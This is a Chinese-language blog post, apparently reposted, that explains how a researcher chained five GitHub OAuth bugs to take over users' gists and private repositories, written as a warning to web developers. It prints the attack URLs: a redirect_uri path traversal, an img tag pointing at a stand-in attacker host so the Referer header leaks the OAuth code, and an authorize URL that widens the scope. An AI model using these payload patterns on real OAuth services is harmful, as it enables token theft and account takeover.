 ```
       Egor Homakov（Twitter: [@homakov](http://twitter.com/homakov)个人网站: [EgorHomakov.com](http://egorhomakov.com/)）
       是一个Web安全的布道士，他这两天把github给黑了，并给github报了5个安全方面的bug，他在他的这篇blog——
       《[How I hacked Github again](http://homakov.blogspot.com/2014/02/how-i-hacked-github-again.html)》（墙）
       说明了这5个安全bug以及他把github黑掉的思路。Egor的这篇文章讲得比较简单，很多地方一笔带过，
       所以，**我在这里用我的语言给大家阐述一下黑掉Github的思路以及原文中所提到的那5个bug。
       希望这篇文章能让从事Web开发的同学们警惕**。关于Web开发中的安全事项，大家可以看看这篇文章
       《[Web开发中的你需要了解的东西](https://coolshell.cn/articles/6043.html)》
```

![](/assets/git-1.png)

### OAuth简介

首先，这个故事要从[Github OAuth](https://developer.github.com/v3/oauth/)讲起。所以，我们需要先知道什么是[OAuth](http://en.wikipedia.org/wiki/OAuth)。所谓OAuth就是说，第三方的应用可以通过你的授权而不用知道你的帐号密码能够访问你在某网站的你自己的数据或功能。像Google, Facebook, Twitter等网站都提供了OAuth服务，提供OAuth服务的网站一般都有很多开放的API，第三方应用会调用这些API来开发他们的应用以让用户拥有更多的功能，但是，当用户在使用这些第三方应用的时候，这些第三方的应用会来访问用户的帐户内的功能和数据，所以，当第三应用要干这些事的时候，我们不能让第三方应用弹出一个对话框来问用户要他的帐号密码，不然第三方的应用就把用户的密码给获取了，所以，OAuth协议会跳转到一个页面，让用户授权给这个第三方应用以某些权限，然后，这个权限授权的记录保存在Google/Facebook/Twitter上，并向第三方应用返回一个授权token，于是第三方的应用通过这个token来操作某用户帐号的功能和数据时，就畅通无阻了。下图简单地说明了Twitter的OAuth的授权过程。

![](/assets/git-2.png)

从上面的流程图中，我们可以看OAuth不管是1.0还是2.0版本都是一个比较复杂的协议，所以，在Server端要把OAuth实现对并不是一些容易事，其总是或多或少会有些小错误。Egor就找到了几个Github的OAuth的实现的问题。

### OAuth的Callback

还需要注意的是，因为OAuth是需要跳到主站的网页上去让用户授权，当用户授权完后，需要跳转回原网页，所以，一般来说，OAuth授权页都会带一个 redirect\_url的参数，用于指定跳转回原来的网页。Github使用的这个跳转参数是redirect\_uri参数。一般来说，redirect\_uri这个参数需要在服务器端进行验证。

你想一下，如果有人可以控制这个redirect\_uri这个参数，那么，你就可以让其跳转到别的网页上（可能会是个有恶意的网页）。如果你觉得跳转到别的网页上也无所谓，那么你就错了。别忘了，当你对这个第三方的应用授权通过后，服务方会给第三方应用返回一个授权token，这个token会被加到那个redirect\_uri参数后面然后跳转回去，如果这个redirect\_uri被别有用心的人改一个恶意的网址后，这个token也就被转过去了，于是授权token也就被泄漏过去了。

知道了这一切，我们就可以理解Egor提的那5个bug是什么意思了。

#### 

### 第一个Bug — 没有检查重定向URL中的/../

首先，我们通过[Github的 redirect\_uri 的说明文档](https://developer.github.com/v3/oauth/#redirect-urls)我们可以看到这样的说明：

```
如果 CALLBACK URL是: http://example.com/path

GOOD: https://example.com/path
GOOD: http://example.com/path/subdir/other

BAD: http://example.com/bar
BAD: http://example.com/
BAD: http://example.com:8080/path
BAD: http://oauth.example.com:8080/path
BAD: http://example.org
```

而Github对于redirect\_uri做了限制，要求只能跳回到 [https://gist.github.com/auth/github/callback/](https://gist.github.com/auth/github/callback/)，

也就是说，域名是gist.github.com，目录是/auth/github/callback/，服务器端做了这个限制，看似很安全了。

但是，Egor发现，Github的服务器端并没有验证.. /../../这样的情况。

于是，Egor相当于构造了一个下面这样的Redirect URL：

```
https://gist.github.com/auth/github/callback/../../../homakov/8820324?code=CODE
```

于是上面的URL就相当于：

```
https://gist.github.com/homakov/8820324?code=CODE
```

你可以看到，认证后的跳转网页转到了别的地方去（并非是github限制的地方）——我们知道Github的gist虽然是给你分享代码片段的，但是也可以用来定制自己的东西的（比如markdown），这个gist的网页当然是被Egor所控制的。

#### 

### 第二个BUG — 没有校验token

第一个bug其实并没有什么，如果服务器端要校验一下token是否和之前生成的token的redirect\_uri一模一样，只要服务器做了这个验证，第一个bug完全没有什么用处，但是，github的服务端并没有验证。

这就是第二个bug，于是第一个和第二个bug组合起来成了一个相当有威力的安全漏洞。

也就是说，token的生成要考虑redirect\_uri，这样，当URL跳转的时候，会把redirect\_uri和token带到跳转页面（这里的跳转页面还是github自己的），跳转页面的服务端程序要用redirect\_uri来生成一个token，看看是不是和传来的token是一个样的。这就是所谓的对URL进行签名——以保证URL的不被人篡改。一般来说，对URL签名和对签名验证的因子包括，源IP，服务器时间截，session，或是再加个salt什么的。

### 第三个BUG — 注入跨站图片

现在，redirect\_uri带着code，安全顺利地跳到了Egor构造的网页上：

```
https://gist.github.com/homakov/8820324?code=CODE
```

但是，这个是gist的网页，你无法在这个页面上运行前端（Javascript）或后端程序（Ruby——Github是Ruby做的），现在的问题是我们怎么得到那个code，因为那个code虽然后带到了我的网页上来，但那个网页还是github和用户自己的环境。

到这里，一般来说，黑客会在这个页面上放一个诸如下面的一个链接，来引诱用户点击，：

                                 `<a href=http://hack.you.com/>私人照片</a>`

这样，当页面跳转到黑客的网站上来后，你之前的网页上的网址会被加在http头里的 Refere 参数里，这样，我就可以得到你的token了。

但是，在gist上放个链接还要用户去点一下，这个太影响“用户体验”了，最好能嵌入点外部的东西。gist上可以嵌入外站的图片，但是github的开发人员并非等闲之辈，对于外站的图片，其统统会把这些图片的url代理成github自己的url，所以，你很难搞定。

不过，我们可以用一个很诡异的技巧：

```
                                  **&lt;img src=”///attackersite.com”&gt;**
```

这个是什么玩意？这个是个URL的相对路径。但是为什么会有三个///呢？呵呵。

##### 像程序员一样的思考

这个时候，我们需要以“程序员的编程思维”来思考问题——如果你是程序员，你会怎么写校验URL的程序？你一定会想到使用正则表达式，或是用程序来匹配URL中的一些pattern。于是，

* 对于绝对路径：你会匹配两个//，后面的可能会是 user@host.com（user@是可选的），然后可能会有:&lt;n&gt;端口号，然后是/，后面是服务器的路径，再往后面应该是?后面带一些参数了。

* 对于相对路径：就没有绝对路径那么复杂了。就是些 .. 和 /再加上?和一些参数。

好了，如果coolshell.cn网页中的&lt;img src=&gt;或&lt;a href=&gt;中用到的相对路径是 /host.com，那么浏览器会解释成：

`https://coolshell.cn/host.com，如果是///host.com，那么就应该被浏览器解释成 https://coolshell.cn///host.com。`

但是，Chrome和Firefox，会把///host.com当成绝对路径，因为其正确匹配了绝对路径的scheme。如果你正在用Chrome/Firefox看这篇文章 ，你可以看看下面的连接（源码如下）：

```
                           [CoolShell Test](https://www.google.com/)
```

```
<a href="///www.google.com">CoolShell Test</a>
```

关键是，这个Chrome/Firefox的问题被标记成了Won’t Fix，我勒个去，基本上来说，后台的程序也有可能有这样的问题，对于Perl，Python，Ruby，Node.js，PHP带的URL检查的函数库都有这样的问题。

于是，我们就可以使用这样的方式给gist注入了一个第三方站点的图片（github的服务端没有察觉到（因为我们前面说过大多数语言的URL检查库都会被 Bypass了），但是浏览器端把这个链接解释到了第三方的站点上），于是请求这个图片的http头中的refere 中包含用户当前页面的URL，也包含了用户授权的code。

到这里，黑客Egor已经拿到用户gist的权限并可以修改或查看用户私用的gist了。但是作者并没有满足，他想要的更多。

### 

### 第四个bug – Gist把github\_token放在了cookie里

于是Egor在用户的cookie里找到了 github\_token

![](/assets/git-3.png)

但是这个token没什么用，因为授权的Scope只有gists。但是，这个token不应该放在用户端的cookie里，本身就是一个安全事故，这个东西只能放在服务端（关于Web开发中的安全事项，可以看看这篇文章《[Web开发中的你需要了解的东西](https://coolshell.cn/articles/6043.html)》）。

于是，Egor只能另谋出路。

### 第五个Bug – 自动给gist授权

因为gist是github自家的，Egor所以估计github想做得简单一点，当用户访问gist的时候，不会出弹出一个OAuth的页面来让用户授权，不然，用户就会很诧异，都是你们自家的东西，还要授权？所以，Egor猜测github应该是对gist做了自动授权，于是，Egor搞了这样的一个URL（注意其中的 redirect\_uri中的scope ）

```
https://github.com/login/oauth/authorize?client_id=7e0a3cd836d3e544dbd9&redirect_uri=
https%3A%2F%2Fgist.github.com%2Fauth%2Fgithub%2Fcallback/../../../homakov/8820324&
response_type=code&scope=repo,gists,user,delete_repo,notifications
```

于是，这个redirect-uri不但帮黑客拿到了访问gist的token，而且还把授权token的scope扩大到了用户的代码库等其它权限。于是你就可以黑入用户的私有代码区了。

参考：

从“黑掉GITHUB”学WEB安全开发   [https://coolshell.cn/articles/11021.html](https://coolshell.cn/articles/11021.html)

